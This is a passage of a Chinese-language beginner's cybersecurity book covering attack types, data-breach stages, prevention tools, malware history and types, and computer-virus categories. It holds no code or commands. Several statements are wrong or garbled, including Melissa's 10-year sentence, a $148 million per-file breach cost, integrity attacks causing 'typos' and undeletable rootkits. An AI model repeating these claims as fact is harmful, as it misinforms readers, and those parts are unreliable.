最后值得一提的是，为了应对日益严峻的隐私和数据安全威胁，需要采取适当的措施。各级政府必须进行严重干预，提供关注、重视和监督。这里提到的因素对于网络安全至关重要。请记住，网络罪犯和攻击者不仅针对公司；斗争现在也针对那些不了解自身隐私的个体。因此，我们必须齐心协力，首先通过正确的信息保护我们自己，从而与这些网络罪犯展开斗争。

## 第 2 章：网络安全风险与攻击

由于网络安全的定义繁多，很难找到一个适合所有用途的定义。然而，网络安全涉及保证信息的机密性、完整性和可用性的实践。它意味着能够抵御任何断电、系统故障以及来自网络罪犯的攻击者。将网络安全视为保证信息机密性、完整性和可用性的实践，涵盖了具有执行高级持续性威胁潜力的网络罪犯、黑客到脚本小子。此外，这对个人和企业都构成了严重威胁。

### 网络安全类型

如果我们讨论网络安全的范围，那将过于宽泛。然而，我的目标是描述核心领域和你应予以考虑的重要网络安全策略。

以下是网络安全的几种类型：

- **关键基础设施**
  这种网络安全类型包括我们社会依赖的 cyber-physical（信息物理）系统。它们包括交通灯、水净化、医院和电力网。例如，如果你将发电厂连接到互联网，它就容易遭受网络攻击。因此，关键基础设施的责任人保护免受任何形式漏洞的攻击是他们的职责。

- **网络安全**
  大多数时候，当你听到网络安全时，许多人首先想到的是网络安全。网络安全非常重要，因为它帮助我们抵御任何形式的非法入侵，包括恶意内部人员。如果我们想确保网络安全，通常存在权衡。例如，可能需要安装访问控制；然而，这会降低工作效率。用于监测网络安全的各种工具会产生大量数据。为了有效管理此过程，安全专业人员正在使用机器来避免实时威胁。

### 云安全

随着公司现在将其信息迁移到云端，这创造了一个需要立即解决的新安全挑战。例如，最近由于云系统配置不当导致了数据泄露。为避免这种情况，云存储提供商正在设计新的安全工具，以帮助保护其客户的数据。

### 应用安全

网络安全中最薄弱的攻击点之一是 Web 应用程序。遗憾的是，只有少数组织拥有资源来缓解此类风险或漏洞。向云端的部署和快速应用开发导致了 DevOps 的创新。

### 物联网安全

这指的是关键的和非关键的 cyber-physical 系统，包括打印机、传感器、安防摄像头和电器。物联网设备提供很少的安全补丁，这对用户和互联网使用者构成了威胁。


## 网络安全威胁/攻击的类型

研究著名战役的历史时，你会发现每场战役都有所不同。这些战役的战术和战略可能相似，因为它们长期以来都行之有效。同理，当网络犯罪分子攻击计算机时，除非局势要求，否则他们不会重新发明攻击策略。他们会想出各种长期以来对他们有效的攻击策略。他们可能会使用跨站脚本、网络钓鱼或恶意软件来实现这一点。

也许你正在努力认清近期数据泄露头条新闻的现实，认识到这些攻击者可以对其受害者造成严重伤害的各种手段确实有帮助。在了解不同类型的攻击之前，我想将这些网络威胁分为三类。

1.  **对机密性的攻击**
    大多数网络攻击始于窃取个人信息，而不是复制它。这些针对机密性的攻击包括窃取比特币钱包、身份盗用和信用卡欺诈等。一些黑客或网络犯罪分子将机密性攻击作为其优先事项，因为他们旨在收集机密信息以谋取经济、军事和政治利益。
2.  **对可用性的攻击**
    如今，我们以拒绝服务和勒索软件的形式看到了这种攻击，其中受害者在需要数据时被拒绝访问其数据。拒绝服务会淹没网络资源使其不可用，而勒索软件则加密受害者的信息，并在解密前索要赎金。
3.  **对完整性的攻击**
    也称为破坏性攻击，这种攻击的目的是损坏、破坏和摧毁系统或信息。这种攻击会导致轻微的排版错误。

## 网络攻击的方法

网络犯罪分子采用各种手段来进行其恶意活动。

其中包括：

-   **社会工程学或恶意软件**
    如果黑客能看到人，那么就没有必要黑进你的电脑了。社会工程学攻击形式多样；通常，这是通过恶意软件进行的。你的防病毒软件是否在屏幕上弹出了警报消息？你是否无意间点击了恶意附件？如果事实如此，那么你就接近了一次恶意软件攻击。网络犯罪分子喜欢使用恶意软件入侵目标系统，因为这样做效果显著。恶意软件是一种非常危险的软件，包括勒索软件和病毒。一旦它获得对你系统的访问权限，就会造成破坏，从监控你的在线行为、控制你的机器、监控你的键盘输入以窃取你的敏感信息不等。你将在后续章节中更多地了解恶意软件、病毒和勒索软件。
-   **网络钓鱼攻击**
    你点击电子邮件中的链接或打开附件的可能性微乎其微。然而，考虑到其中涉及的危险，必须有一个令人信服的理由采取这种步骤。网络犯罪分子意识到这一点，并将尽一切所能进行劝说。

任何人窃取你的密码或信息的最佳方法是诱骗你透露此类信息。无论你的安全专业知识水平如何，任何人都可能成为网络钓鱼攻击的受害者。正因为如此，大多数人使用双因素身份验证过程来保护他们的信息。如果攻击者窃取了你的密码，这几乎等同于他们没有第二个因素密钥的情况一样无效。

网络钓鱼攻击发生的情况是，攻击者冒充受信任的朋友或商业伙伴给你发送电子邮件。该电子邮件看起来真实，并且其中写有一定的紧迫感。电子邮件将包含一个需要你打开的链接或附件。一旦你错误地打开了电子邮件附件，它会将恶意软件安装到你的系统中。或者，如果它是一个链接，它会转移到看起来真实的网站，并请求登录信息。实际上，这个陷阱是为了诱使你透露你的身份验证信息。在处理这种情况时，你必须验证来自发送者的电子邮件和附件。

-   **SQL 注入攻击**
    凭你有限的计算机知识，你知道我们使用 SQL（结构化查询语言）与数据库进行通信。这些数据库对于存储相关信息至关重要。大多数为网站和服务存储敏感信息的服务器利用 SQL 服务来管理数据。这种特定的攻击针对 SQL 数据库，并揭示敏感数据。如果此类服务器存储客户的个人详细信息，如密码、信用卡号等，问题就会加剧，这使得它成为攻击者有利可图且诱人的目标。

## 网络安全基础知识 – 保护你的计算机网络免受病毒和恶意软件的侵害

间谍软件、勒索软件、蠕虫、病毒和黑客只是少数可能危害你的网络和计算机系统的因素。当你发现这些黑客仅通过电子邮件中的恶意链接就如何轻易地窃取你的信息时，情况会变得更加糟糕。然而，攻击或利用计算机的方式多种多样。同样，我们也有保护自己免受这些黑客侵害的方法。在本节中，我将探讨保护你的计算机网络免受病毒和恶意软件侵害的重要方法。

-   **使用复杂密码并定期更改**
    提高安全性的一件简单事情是使用强密码。你应该使用包含特殊字符（如“&*!@#”）以及数字和字母的强密码。复杂密码的长度应在 8 到 17 个字符之间。此外，不要在你的设备上书写或存储你的密码，因为这是黑客窃取你信息的一种更简单的手段。你应该偶尔更改密码，因为这有助于防止任何暴力密码破解。保护你的网络安全性的最佳实践是每 3 个月更新一次你的密码。
-   **安装防病毒软件**
    保护你的计算机网络和系统的第一步是安装防病毒软件，以保护你免受病毒和恶意软件的侵害。防病毒软件可以积极扫描试图渗透到你系统文件、电子邮件或操作系统中的任何病毒。重要的是，你决定使用的防病毒软件必须运行定期更新。这些更新至关重要，因为每天都有新的病毒被创造，而这些更新是避免任何潜在攻击的关键。
-   **安装反恶意软件和反间谍软件程序**
    间谍软件和恶意软件会像病毒一样对计算机网络造成严重损害。除了你安装的防病毒软件外，安装反间谍软件和反恶意软件程序至关重要。你应该偶尔更新此软件，以帮助清除和隔离任何恶意软件或间谍软件。大多数人所做的只是安装防病毒软件，并认为这样就能避免任何可能的危险。
-   **执行定期系统备份**
    有各种各样的恶意代理，如勒索软件、恶意软件、病毒、蠕虫等，它们可能会销毁你的文件。保护自己免受任何攻击的好方法是创建定期备份。例如，如果你定期备份你的计算机，当你遭受勒索软件攻击时，你可能有一些可以依仗的东西。请记住，当攻击者使用勒索软件攻击你的系统时，他们会加密你的数据，并期望你支付赎金来解密这些文件。然而，如果你有之前的备份，你就不会考虑支付这种赎金，因为有时并没有保证黑客在付款后会解密文件。你可以使用外部驱动器来备份你的数据。然而，近年来我们看到了云存储系统的兴起。
-   **安装防火墙**
    防火墙是你保护网络免受攻击所需的基本安全工具。它充当计算机内的边界，阻止任何未经批准的传出和传入访问。当你想要配置或设置它时，确保使用


您操作系统的内置防火墙功能。您可以根据个人偏好更新防火墙设置。

## 谨慎对待您的电子邮件

网络罪犯可以以多种方式利用您的电子邮件。他们可以在您的邮件中附带病毒，当您打开附件文件时，病毒就会被触发。重要的是，您只应阅读或打开您认识的人发来的邮件。如果收到的邮件无法识别，请尽力立即将其删除。

## 使用互联网时请谨慎

要知道，没有网站是绝对安全的，这一点非常重要。无论它们看起来多么安全，都有可能包含恶意软件和间谍软件。只需手指轻轻一点击，您的电脑就可能感染病毒、恶意软件和间谍软件。随着网络威胁的增加，我们目睹了恶意网站伪装成真实网站的情况。然而，在访问任何网站时，务必检查网站名称和拼写，如果发现任何问题，请做出必要更正。此外，避免点击图形、广告、弹窗以及链接到未经核实的网站。

保护您的计算机网络和系统始于您——用户。您应该花时间了解基本在线安全。通过下载并阅读本书，您已经迈出了正确的一步。但这并未就此结束；请确保将本书中学到的一切付诸行动。

## 安全策略

不同组织之间的安全策略可能采用不同的模型实施。然而，在本书中，我将总结大多数组织使用的四种重要策略。

- **无安全** – 这是最简单的实施模型，个人或组织决定不实施任何形式的安保措施。然而，入侵者可以在此模型中攻击该组织。
- **通过晦涩进行安全** – 这种特定的安全模型拥有一个安全的系统；然而，没有人知道任何安全程序的存在或其内容。不幸的是，这种方法不是一种长期策略，因为黑客有办法了解安全结构。
- **主机安全** – 在这种安全模型中，每个系统都有自己就位的安全措施。这是最安全的实施方案之一。然而，其缺点在于组织内的复杂性和多样性使其更难实施。
- **网络安全** – 随着组织倾向于成长并变得多样化，难以跟上安全挑战。然而，使用网络安全模型有助于组织保持专注于通过各种主机控制对其网络的访问。网络安全模型是实施高效且可扩展的模型之一。

## 重要的安全管理实践

拥有良好的安全实践至关重要。良好的安全管理实践要求您制定安全政策。实施安全政策相当容易，因为它在很大程度上确保了良好的安全管理实践。以下是良好安全政策的四个重要方面。

- **合法性** – 该政策是否满足所有法律要求？
- **文化问题** – 该政策是否符合人们的信仰、工作方式和期望？
- **功能性** – 提供安全的机制是什么？
- **可负担性** – 实施此安全的成本是多少？

## 第3章：网络安全漏洞

如今，由于网络安全攻击和数据泄露的后果日益严重，各组织正在大力投资数字基础设施。根据庞贝蒙研究所（Ponemon Institute）最近的一项调查，仅2018年因数据泄露造成的平均成本就比往年增长了6.4%，总计达386万美元。您知道网上被盗文件的平均成本已升至1.48亿美元吗？如果我们不采取行动保护我们的数据，这些数字将随时间推移而不断上升。

鉴于数据泄露成本的增加和风险等级的上升，各行各业中的个人和公司都必须确保了解他们正在对抗什么。考虑到黑客和网络罪犯正在利用相同的漏洞，而这些漏洞是过去不同行业错误的产物，这一事实绝对令人震惊。实际上，另一份关于“Verizon 2018 数据泄露”的调查报告指出，自2014年以来，约90%的数据泄露和94%的安全事件都落入了相同的类别。

这意味着，组织和个人必须学习新的技巧来防止任何形式的数据泄露，同时投资相关工具来弥补网络安全差距，从而导致此类情况发生。虽然这对不同的人可能意味着不同的事情，但最重要的是，在网络安全漏洞的背景下，确定您作为个人可能面临的风险。此外，不仅要识别它，还应实施相关解决方案，以保护您的数据并维护您的在线隐私。

为了解决这个问题，必须提出明确的问题才能得出最佳解决方案。例如，您为什么会有数据泄露？您经常面临哪种类型的数据泄露？您可以做什么来避免这种情况？一旦您开始为这些问题提供解决方案，您就更接近一个保护您网络存在的解决方案。

## 数据安全泄露包含什么？

并非每个人都能令人信服地理解数据安全泄露所包含的内容。安全数据泄露的性质可能因个人、网络架构或组织规模而异。尽管如此，无论处于什么级别，数据泄露仅仅是未经授权或非法访问私人信息。这些网络罪犯和黑客的意图各不相同；然而，有一点我们知道，即他们在访问不属于他们的数据和信息方面具有非法性质。此外，重要的是要强调，数据泄露还包括信息的外泄，即某些人在未获得所有者适当批准的情况下访问信息。

## 数据泄露是如何发生的？

尽管我们有各种类型的数据泄露，但数据泄露遵循特定的模式。在本章的后面部分，我将详述这些不同类型的数据泄露。了解这些网络罪犯如何成功实施数据安全泄露，将帮助用户和各类网络安全专家更好地评估弱点并有效准备，以挫败他们的阴谋。



根据上述图表，很明显，数据泄露可能在四个不同的阶段发生。包括：

- **探测阶段** – 在此阶段，恶意方开始努力了解网络和整体环境。他们首先探测您的网络安全防御，检查您的密码，分析如何最终发起钓鱼攻击，或查找没有最新安全补丁的过时软件。
- **初始攻击阶段** – 一旦他们在探测阶段取得成功，他们将对您的网络进行第一次打击。这通常是通过电子邮件，试图诱骗您点击特定网站。这将进一步将您带到一个恶意网站，或破坏一个应用程序，从而干扰您的工作流程。
- **扩展攻击阶段** – 随着初始攻击，您的系统变得脆弱，从而为他们提供了评估下一步行动的机会。通常，这可能涉及利用他们可以持有的任何东西，以攻击整个网络并获取尽可能多的信息。
- **数据窃取阶段** – 由于可能在不同时间尺度上发生的不同类型网络安全泄露，网络罪犯可能会尝试尽可能多地执行数据外泄。万一，他们可能会潜伏起来，以了解他们可以窃取的数据量。

黑客或网络罪犯从个人或组织窃取的具体数据各不相同。然而，根据Verizon进行的研究，76%的网络安全数据泄露是出于经济动机的。或者，这可能包括敏感个人数据、政府记录、专有信息或客户信息的交易。我们看到了Uber、Yahoo和Facebook最近的泄露事件，网络罪犯利用这些被盗数据谋取个人利益。此外，数据安全泄露跨越各种部门，没有任何特定部门可以豁免。

## 数据安全泄露的类型

此前，我已经解释过，在避免个人和组织数据泄露方面，我们有各种注意事项。任何数据攻击的具体性质将仅受个人或组织的具体漏洞以及攻击者意图的影响。在此基础上明确声明，我们必须理解，有各种类型的数据安全泄露，包括密码攻击、勒索软件攻击、恶意软件攻击、钓鱼攻击和人为错误。然而，我将解释我们更容易遭受的基本类型的数据安全泄露。包括：

- **人为错误**

有时，我们是数据泄露的主要原因，我将其归类为人力错误。这通常不是故意的，而是意外的，因为用户没有意识到自己或她的活动。对于


## 内部数据泄露

有时，意外的数据泄露可能构成真正的威胁。心怀不满的员工或那些即将失业的人可能会窃取组织中的关键信息。他们可能会在未经事先许可的情况下访问这些信息并将其分发出去。然而，组织应当谨慎，因为泄露可能并非源自员工的意外行为。

### 如何防止数据安全泄露

防止数据安全泄露的职责不仅落在专家身上，每个人都应充分参与。从这些犯罪分子手中保卫你的数据是一项艰巨的任务。为此，至关重要的是了解应采取哪些步骤以防止任何可能产生的数据泄露。传统上，数据安全泄露的生命周期包括以下五个阶段。

#### 发现

在这个阶段，安全专业人员的目标是处理敏感信息，以识别任何存在漏洞的数据。犯罪分子发现这些敏感信息是一个容易攻击的目标。你的个人信息（包括密码、信用卡详细信息等）是这些犯罪分子关注的信息之一，因此，采取相关措施加以保护至关重要。

#### 检测

发现阶段之后是检测阶段，在此期间，可以识别出可能的安全威胁。如果不保持警惕，你可能会允许网络犯罪分子访问你的信息。例如，如果你有一些应用程序尚未安装最新的安全补丁，你就会暴露给这些攻击者，使他们得以利用你。重要的是，你应该定期审查待安装的更新。

#### 优先处理

在这个阶段，你的目标是确定风险优先级，并封堵你攻击者可能利用的任何漏洞。此外，你应利用数据运营和安全信息的综合智能，精确定位这些犯罪分子可能发动攻击的位置。而且，你应填补这些缺口以保护你的设备。为此，你需要聘请安全专业人员对你的安全网络进行审计。

#### 修复

这一阶段的目的是解决你在过程中可能识别和确定的任何潜在威胁。例如，补救措施可能是为过时软件安装最新的安全补丁，或对敏感信息进行加密。

总之，需要策略性且有效地管理这一整个过程。显著的是，防止安全数据泄露是一个持续的过程，因为对计算机网络和设备的威胁正在上升。

## 安全数据泄露防范工具

### 防止数据泄露的工具



在网络信息安全中，防止数据泄露对于网络安全专业人员和技术团队来说是一项艰巨的任务。此外，考虑到过去十年中网络威胁的影响及其增长，这也极具挑战性。在前一章节中，我谈到了如何防止数据泄露，但仅靠这些还不足以应对潜在的威胁。然而，存在一些软件应用程序可以帮助保护你的数据免受犯罪分子的侵害。这些软件应用程序包括：

- **访问控制软件**

如今，我们有软件应用程序可以帮助你管理访问权限，并在你为组织工作时帮助你向员工委派准确的权限。这些应用程序不仅适用于组织，你还可以设置它们来控制你设备的基本安全性。通过这种控制，只有授权人员才能访问你允许访问的特定信息。在某些情况下，这些软件应用程序可以根据你设置的指令帮助生成审计跟踪和报告。

- **安全信息与事件管理软件**

这些应用程序的主要用途是日志管理，在组织中使用时非常有效。它们有助于收集、存储、分析和报告相关的日志数据。此外，它们还监督实时安全警报，并在不通知你的情况下解决任何潜在威胁。

- **反病毒软件**

大多数人忽视反病毒软件的重要性。你可以在“计算机病毒”一章中阅读更多关于反病毒软件的内容。它们可以在协助你定位并移除已侵入系统的任何潜在威胁的同时，帮助你抵御各种威胁。反病毒软件可以帮助你抵御勒索软件、间谍软件、广告软件、蠕虫、特洛伊木马以及任何类型的恶意活动。拥有可靠且强大的反病毒软件将有助于应对任何威胁，并让你对可能发生的任何攻击拥有完全的可见性。

无论选择实施哪种特定的安全数据泄露工具，你都应确保其功能强大。此外，你的设备需要持续更新和补丁以对抗任何入侵。无论你决定使用哪种软件，都要确保其将数据加密作为优先事项。如今，有一些新的网络威胁，旨在规避我们目前的检测方法。因此，你的安全解决方案必须不断演进，以保持领先于这些安全漏洞。最后，如果你想保护你的数据和在线隐私，你必须接触任何可能的威胁，理解这些攻击是如何发生的。一旦你识别出这些威胁，你就可以制定计划，通过相关的安全工具来减轻它们的影响。

## 第4章：恶意软件 – 攻击、类型与分析

## 简介

恶意软件是任何对计算机网络或系统有害的软件、文件或程序。恶意软件与普通程序的不同之处在于，它可以在你的网络或系统中传播或自我复制，而你可能并未察觉，同时造成严重破坏。恶意软件非常强大，有潜力侵蚀你系统的性能，并对你的网络造成巨大破坏。想象一下，如果你的计算机系统被感染且无法使用，系统中的数据变得不可用，除非在某个时间点之前。这是恶意软件攻击的后果。

恶意软件攻击并非始于互联网时代，它们已经存在了几个世纪。然而，随着时间的推移，它们演化得更为致命，对宿主机的危害更大。以下是历史上发生的一些恶意软件攻击。

- 梅丽萨（Melissa）– 1999年，大卫·L·史密斯创建并发布了“梅丽萨”病毒，该病毒嵌入在一个 Microsoft Word 文件中。他设计该文件的方式使得其中包含不同网站的密码，从而诱使受害者打开该文件。一旦无知的受害者打开该文件，宏就会被执行，并将病毒重新发送到用户的地址簿中。它选择地址簿中的前50个人来延续其攻击。然而，安全专家追踪到病毒源自史密斯，他随后被判处入狱服刑10年。


## 我的末日

这种特定的恶意软件并非病毒，而是一种蠕虫，这意味着它无需任何人为干预即可传播到受害者的网络中。2004 年，“我的末日”是全球传播速度最快的电子邮件蠕虫之一。垃圾邮件发送者是传播该病毒的主要推手。该恶意软件之所以得名，是因为其代码中包含了它的名称。在这一年中，“我的末日”危害巨大，影响了微软和谷歌等大型公司。当然，这些公司在其破坏过程中损失了数十亿。

## 震网

这种恶意软件被视为一种复杂的恶意软件，它在伊朗的一家核电站造成了硬件级别的破坏。它通过 U 盘获取系统访问权限并感染了系统。该恶意软件使用一种生成虚假数字证书的代码，从而能够逃避任何形式的检测。它通过系统网络验证控制核离心机的那条控制线，随后利用系统漏洞并最终将其摧毁。

## 想哭（WannaCry）

截至目前，“想哭”是波及超过 100 个国家的大规模勒索软件攻击。该勒索软件利用了一个 SMB 漏洞，微软早在 2017 年 3 月就已经发现并修补了该漏洞。所有运行过时补丁的系统均受到了此次攻击的影响。其运作模式与此前提到的攻击截然不同。它无需用户干预即可通过用户网络进行传播，并开始加密整个系统，导致用户无法使用该系统，除非他们支付了赎金。此类攻击最初主要针对医疗行业，随后才蔓延至其他行业。马库斯·哈钦斯发现了一种终止机制；然而，当恶意软件更新后，它找到了另一种绕过该更新的方法。

## 恶意软件如何工作

网络犯罪分子和黑客是恶意软件的编写者，旨在对网络或系统造成损害。他们使用各种虚拟和物理方法传播这种恶意软件，从而感染网络和电子设备。例如，恶意程序可以通过 U 盘发送到您的系统中。另一种手段是通过“经过下载”（drive-by downloads），即在受害者不知情或未批准的情况下，自动将恶意程序下载到受害者的系统中。

另一种常见的攻击是网络钓鱼攻击，其中看似合法的电子邮件中附带了恶意链接或附件。一旦用户打开链接，恶意软件就会在个人不知情的情况下开始执行。有时，复杂的恶意软件通常会使用命令与控制服务器，使攻击者能够连接到受害者的系统并窃取敏感数据。此外，他们还可以远程控制被入侵的服务器或设备，无论其地理位置如何。

不断演变的恶意软件变种涉及混淆和规避技术，旨在欺骗用户、反恶意软件产品和安全管理员。大多数这些技术依赖于简单的技巧，例如使用网络代理来源 IP 地址或隐藏恶意流量。还存在诸如多态恶意软件等复杂威胁。这种恶意软件可以持续改变其基本代码，以逃避来自反病毒软件或基于签名的检测工具的任何形式的检测。

## 恶意软件的类型

根据其特征和属性，恶意软件有多种类型。以下是一些恶意软件的类型：

- **病毒**

这是一种流行的恶意软件类型，具有执行并传播到其他文件或程序的能力。它通常需要人为干预才能运行并扩展其操作。我们还有各种类型的病毒，包括文件病毒、主引导记录病毒、宏病毒、多态病毒和隐蔽病毒。你可以在下一章“计算机病毒与预防技术”中阅读更多相关内容。

- **特洛伊木马**

这种特定的恶意软件被设计成看似合法的程序或文件，旨在获取系统或网络的访问权限。合法的软件和文件被捆绑了恶意软件，使得一旦软件在系统中安装，恶意软件也会被安装并开始执行。

- **数据发送特洛伊木马**

这些特洛伊木马的工作是窃取保存在您计算机中的敏感数据，并将其传输给攻击者。

- **远程访问特洛伊木马**

这种特洛伊木马使黑客和网络犯罪分子能够在所有者不知情的情况下远程访问您的计算机。攻击者通过隐蔽通道来实现这一点。

- **安全软件禁用特洛伊木马**

在这种情况下，特洛伊木马会禁用用户的反病毒软件和防火墙系统，从而允许其成功下载恶意文件并运行，而不受任何拦截。

- **破坏性特洛伊木马**

你绝对不希望这种特洛伊木马访问你的系统，因为它会摧毁你所有的服务和文件。

- **蠕虫**

它的功能类似于病毒，但不需要人为干预即可运行和传播。

- **勒索软件**

这种恶意软件的主要功能是在感染用户系统后加密整个系统。一旦完成，攻击者会要求支付赎金以恢复文档。没有保证在支付赎金后，攻击者会解密系统。

- **垃圾邮件**

这通常打包在附件和电子邮件中。用户被诱骗点击此类附件或电子邮件，最终在系统上安装病毒。

- **根kit（Rootkit）**

这些很难检测且无法删除。唯一的补救措施很可能是格式化受感染的系统。

- **间谍软件**

这种恶意软件充当间谍，潜伏在你的计算机上。它监控并记录用户在系统上的活动。

- **广告软件**

它们用于跟踪用户的下载历史记录和浏览活动，意图显示横幅或弹出式广告。它们生成不必要的广告，诱骗用户在线购买某些东西。

- **键盘记录器**

也称为系统监视器，它们记录你在键盘上的按键。通过这种方式，它们通过键盘记录器窃取你的信息。

## 恶意软件的检测、预防和清除

用户可以通过多种方式检测恶意软件的存在。这些包括：

- 自动重启和关机问题
- 关机故障
- 无法删除某些类型的文件
- 随机的快捷方式或文件夹
- 系统无响应且运行缓慢
- 运行不必要的程序或软件
- 系统默认设置发生变化
- 恶意软件攻击

通过这些症状，你可以检测到你的网络或计算机是否已感染恶意软件。然而，如何防止这些问题再次发生？以下步骤会有所帮助：

- 清除网络和系统中的任何恶意软件感染（清除过程）
- 确保你的系统和网络在未来免受任何潜在攻击（预防过程）

对于清除过程，你可以遵循以下步骤：

- 将你的计算机从网络中断开。此外，断开任何内部网络或互联网连接
- 不要连接任何外部驱动器，因为它可能会帮助传播恶意软件，从而进一步感染你的系统
- 使用更新的反病毒软件扫描你的系统。确保执行全面扫描而不是快速扫描
- 更新所有软件和窗口补丁。完成后，重启系统以清除任何恶意软件
- 如果上述步骤不起作用，则需要格式化系统并遵循以下预防措施。

由于你可以清除任何恶意软件痕迹，如果你希望防止未来再次发生，建议采取以下步骤：

- 始终扫描你的外部驱动器
- 定期更新你的 Windows 系统
- 使用高级反病毒软件。此外，确保执行全面系统扫描
- 避免点击来自不可信来源的任何附件或电子邮件
- 不要从非法来源下载任何软件
- 经常更新重要文档
- 使用 Excel 时，如果不需要，请勿允许宏

## 恶意软件分析

恶意软件分析是捕获和分析恶意软件行为以进行检测和预防的过程。大多数反病毒公司执行恶意软件分析以更新其签名，从而检测和隔离任何恶意软件。

你现在可以看出更新反病毒软件的重要性了。这一特定方面针对的是那些从事网络安全工作的人。其中之一


进入网络安全领域的一个职业是恶意软件分析。因此，以下指导内容面向恶意软件研究人员和分析人员，因为如果操作不当，以下分析可能会产生反效果。

以下是恶意软件研究人员和分析人员使用的两种恶意软件分析技术。

## 静态分析

这涉及对已失效的恶意代码进行逆向工程以理解其行为，并在准备修复方案时发挥作用。幸运的是，这种分析不会对您的系统造成损害；然而，由于以下原因，学习并精通它并非易事：

-   只有少数安全专业人员能够理解或编写代码，因为恶意软件是用代码编写的
-   你必须确定问题所在，这需要经验
-   很难获取恶意软件样本

## 动态分析

这种分析比前一种更容易；但是，如果恶意软件已发展到高级阶段，它非常危险且无效。这种分析无效的原因是，某些恶意软件可以检测其在开放环境或实验室中运行。当检测到任何分析工具时，它们可以停止运行。

此外，如果恶意软件设定了攻击时间，这会影响其有效性。该技术要求你在隔离环境中运行恶意软件，以精确定位其行为。其行为可归类为：

-   文件系统行为
-   网络行为
-   系统更改
-   注册表更改

尽管如此，该技术是危险的，因为：

-   它可能会导致系统永久损坏
-   它可能逃离隔离环境并影响你的宿主系统

不同的恶意软件具有不同的攻击计算机系统的意图。这可能包括创建僵尸网络、占用你的带宽、感染文件、破坏数据等。因此，你应该理解各种恶意软件类型以及避免它们的可能方式。如果你立志成为一名恶意软件分析师，你应该了解恶意软件的工作原理，识别它们，并创建相关的特征码来识别它们。此外，恶意软件攻击已经变得高级，但其意图并未改变。因此，你应认真对待安全以保护你的敏感信息，这通常是黑客要求赎金的媒介。另外，确保你的设备得到保护，并避免使用未经优质杀毒软件适当检查的外部驱动器。

## 第5章：计算机病毒与预防技术

### 引言

如今，感染计算机病毒的想法令人恐惧，并带来一种不安感。没有人愿意处于那种境地：安全专家告诉他们，他们的计算机已感染病毒，且无补救措施来拯救他们的文件和重要文档。

计算机病毒由三个不同的部分组成，包括感染机制、触发器和有效载荷。不要惊讶我是如何得出这一结论的。嗯，下面的解释会让你明白。感染机制涉及病毒的传播方式，通常是通过修改包含病毒副本的代码。实际上，感染向量是病毒通过其媒介传播的方式。此外，一些病毒使用多种感染文件的方法。触发器部分涉及是否分发有效载荷的选择。最后，有效载荷涉及意外或故意地损害系统。除了感染机制外，触发器和有效载荷部分是可选的。

计算机病毒可以通过以下方式传播到你的系统中：

-   盗版软件
-   访问受感染的网站
-   安装/下载媒体播放器、工具栏、免费游戏和其他系统实用程序
-   与朋友共享图片、文件和音乐
-   安装主流软件应用程序
-   连接受感染的外部存储设备

### 什么是病毒？

病毒是一种程序，它附加到原始程序代码中，并每当该合法程序运行时执行，意图在用户不知情的情况下造成伤害。计算机病毒通常在你不知情或未许可的情况下自我复制。通常，它们有一个感染阶段，在此阶段再生；以及一个攻击阶段，在此阶段造成破坏。

病毒的另一个定义是：一种程序，它通过附加到另一个可执行文件的方式重新复制其自身代码，使得每当可执行文件执行时，病毒代码也随之执行。

### 计算机病毒的类型

计算机病毒可以通过多种方式进行分组，但在这本书中，我将根据它们的正交轴进行分类。这意味着我们将根据病毒试图感染的目标类型以及用于逃避防病毒软件和用户检测的方法来看待病毒。对病毒进行简单分类的方法之一是基于它们试图感染的对象。在本节中，我将探讨这三种方式，包括可执行文件感染器、引导扇区感染器和宏病毒（数据文件感染器）。

-   **引导扇区感染器**
  
  尽管引导病毒在不同机器上的操作顺序有所不同，但它遵循一个简单的过程。你打开系统，基于ROM的指令开始运行。然后，它执行自检、设备检测和初始化测试。一旦识别出引导设备并从设备读取引导块，控制权就会发送到已加载的代码。整个过程称为初级引导过程。此外，在此过程中加载的代码会加载另一个更大的程序，该程序理解引导设备的文件系统结构。

虽然病毒正逐渐过时，但这并不意味着它们不会再次出现。引导扇区病毒主要影响用于启动计算机的软盘。然而，现代系统不使用软盘，但这些病毒仍可能出现在系统的引导主记录上。它们通常位于计算机的分区存储设备上。尽管如此，随着互联网的演进，这些威胁现在已得到缓解。

### 直接操作病毒

这种病毒在1998年震惊了世界，通常在被感染的文件执行时触发。它是一种传染性病毒，不会隐藏在计算机内存中或安装自身。相反，在病毒激活之前，加载直接发送到你的计算机。这种病毒的唯一限制是它仅在你实施被感染的文件时激活。

直接操作病毒所做的是附加到COM或EXE文件上，并等待某人点击文件以激活它。一旦文件执行，它就会出现在计算机系统中，在你的计算机目录中寻找相似文件以传播病毒。然而，不要害怕，因为该病毒不会删除任何文件，也不会影响你的计算机性能。除了使一些文件无法访问外，对用户的负面影响最小，并且可以用可靠的杀毒程序清除。

### 驻留病毒

这种特定病毒是一种文件感染器。与不安装自身的直接操作病毒不同，驻留病毒安装到计算机中。即使原始源文件已被感染并被根除，驻留病毒仍会使文件继续工作。大多数安全专家认为，驻留病毒比它的同类直接操作病毒更致命。

简而言之，病毒附加到你的计算机内存，影响文件，并保留原始文件，同时单独运行病毒。痛苦的部分在于它们难以发现。更棘手的是，移除它们并不容易。驻留病毒包括慢速感染器和快速感染器。慢速感染器不容易区分，因为症状发展缓慢。另一方面，快速感染器对系统造成更大的损害，尽管它们更容易识别。

更令人遗憾的是，它们可以附着在防病毒软件上，并感染杀毒软件试图扫描的每个文件。然而，要移除它们，你需要安装操作系统补丁。

### 多态病毒

这种特定病毒是任何防病毒程序最难以检测或移除的病毒之一。当多态病毒攻击你的系统时，这些防病毒程序很难保护你，因为软件程序有能力将特定的病毒变种列入黑名单。然而，多态病毒每次复制时都会改变其二进制模式。当防病毒程序遇到多态病毒时，它将其视为系统中的不同软件。这使得它能够逃避防病毒黑名单。

### 多部位病毒

